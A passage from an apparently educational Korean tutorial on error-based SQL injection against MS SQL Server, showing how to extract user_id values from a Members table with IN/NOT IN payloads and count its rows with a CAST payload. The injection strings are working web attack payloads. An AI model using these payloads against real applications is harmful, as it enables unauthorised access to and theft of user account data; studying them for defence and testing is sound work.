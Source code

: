 ### 4. IN, NOT IN을 통한 칼럼 내용 확인

Having 구절로 테이블, 칼럼의 이름을 알아냈다.

칼럼의 이름을 알아 낸 것으로 그치면 아무 쓸모가 없기에, 해당 칼럼의 값이 무엇인지 확인 해본다.

Having 구절로 테이블명은 **Members**, 칼럼은 **num, user_id, passwd** 등이 있는 것을 알았다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/178434665-1951d930-c6c5-41c7-9ff1-be1a30506d99.png" width = 320>
</p>

기본 형태로는 아래와 같다.
 ```SQL
 SELECT COLUMN FROM TABLE WHERE ITEM = ''
 ```

```SQL
' OR 1 IN(SELECT USER_ID FROM MEMBERS WHERE USER_ID >= 'a') --
```

우리가 알아낸 테이블명 **Members**, 칼럼명 **USER_ID**을 대입하여 완성한다.

해당 구문에서 Error가 발생하는 이유로는 `IN`은 WHERE구문에서 내부 Query를 진행 하는데 `IN` 내부에서 진행한 쿼리와 `OR 1`에 대한 데이터 형식이 **INT**, **nvarchar**로 다르기에 에러가 발생하면서 해당 값을 보여주게 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/178436961-33a53c45-ce25-4b1d-a54b-e8517ef436cf.png" width = 480>
</p>

가장 첫번째로 나온 값으로는 **'oyes'** 라는 칼럼의 값을 뽑아냈다.

이후로는 `NOT IN`을 이용하여 뽑아볼 수 있다. 결과는 **'oyes'**의 이후 값을 뽑아 내기에 명령어만 보여줄 것이다.

```SQL
'OR 1 IN(SELECT USER_ID FROM MEMBERS WHERE USER_ID NOT IN (‘oyes’,‘,,,,,’)) -- 
```

NOT IN에 나온 값을 하나씩 대입하면 해당 값을 제외한 칼럼의 값을 뽑을 수 있다.

### 5. DB Table의 행(튜플)의 개수

각 DB에는 몇 개의 데이터가 있을 지 확인 해볼 것이다.

이번에 이용해볼 함수로는 `CAST()`함수다.

이 함수는 테이블에서 추출한 값을 명시적으로 형변환 하는 것이다.

예를 들면 
```SQL
SELECT 3 + 'age' --> Error 발생
```

* 형변환 에러를 해결하기 위해 사용하지만, 우리는 이러한 Error를 유발하여 테이블의 행 개수를 알아 낼 것이다.

```SQL
'OR 1 IN(SELECT 'a' + CAST(COUNT(*) AS VARCHAR(100)) FROM MEMBERS) --
```

MEMBERS 테이블에서 모든 것을 COUNT 하여 VARCHAR(100)로 형변환 한 후, 해당 값에 'a'를 더하여 `OR 1`을 하기에 INT와 VARCHAR로 데이터 형식이 맞지 않아 Error를 유발한다. 
